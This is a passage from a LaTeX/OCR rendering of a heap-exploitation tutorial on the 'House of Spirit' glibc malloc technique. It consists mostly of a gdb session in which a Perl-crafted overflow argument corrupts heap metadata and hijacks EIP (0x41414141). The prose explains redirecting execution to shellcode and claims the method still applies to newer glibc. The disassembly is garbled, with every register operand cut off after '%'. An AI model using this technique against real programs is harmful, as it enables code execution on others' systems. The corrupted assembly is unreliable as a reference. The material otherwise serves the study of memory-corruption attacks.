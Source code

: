 \documentclass[12pt]{article}
\begin{document}
\begin{verbnobox}[\small]
blackngel@linux:~$ gdb -q ./hos
(gdb) disass fvuln
Dump of assembler code for function fvuln:
0x080481f0 <fvuln+0>:	push   %
0x080481f1 <fvuln+1>:	mov    %
0x080481f3 <fvuln+3>:	sub    $0x28,%
0x080481f6 <fvuln+6>:	mov    0xc(%
0x080481f9 <fvuln+9>:	mov    %
0x080481fc <fvuln+12>:	movl   $0x100,(%
0x08048203 <fvuln+19>:	call   0x804f440 <malloc>
..........
..........
0x08048230 <fvuln+64>:	call   0x80507a0 <strcpy>
..........
..........
0x08048252 <fvuln+98>:	call   0x804da50 <free>
0x08048257 <fvuln+103>:	movl   $0x28,(%
0x0804825e <fvuln+110>:	call   0x804f440 <malloc>
..........
..........
0x080482a3 <fvuln+179>:	leave  
0x080482a4 <fvuln+180>:	ret    
End of assembler dump.

(gdb) break *fvuln+19          /* Before malloc() */
Breakpoint 1 at 0x8048203

(gdb) run `perl -e 'print "A"x32 . "\xff\xbf"'` 48
.........
..........
Breakpoint 1, 0x08048203 in fvuln ()
(gdb) x/4x $ebp-4   /* 0x30 = 48 */
0xbffff314:	0x00000030	0xbffff338	0x080482ed	0xbffff702

(gdb) x/4x $ebp-4+48   /* 8 < 0x12c < av->system\_mem */
0xbffff344:	0x0000012c	0xbffff568	0x080484eb	0x00000003

(gdb) c
Continuing.

PTR1 = [ 0x80c2688 ]
PTR1 = [ 0xbffff318 ]

AAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
\end{verbnobox}


In this special case, the address of EBP would be the address of PTR2 zone
data, which means that the fourth write character will overwrite EIP, and
you will can point to your Shellcode.
\newline


This technique has the advantage, once again, to remain applicable in
the newer versions of glibc so as PTMALLOC3. Must be known that the
Phantasmal's theory still remain to the pass of the time.
\newline


Now you can feel the power of witches. We arrived, flying in broom at The
House of Spirit.


\begin{verbnobox}[\small]
                        << La television es el espejo donde
                           se refleja la derrota de todo
                           nuestro sistema cultural. >>

                                       [ Federico Fellini ]
\end{verbnobox}
\end{document}
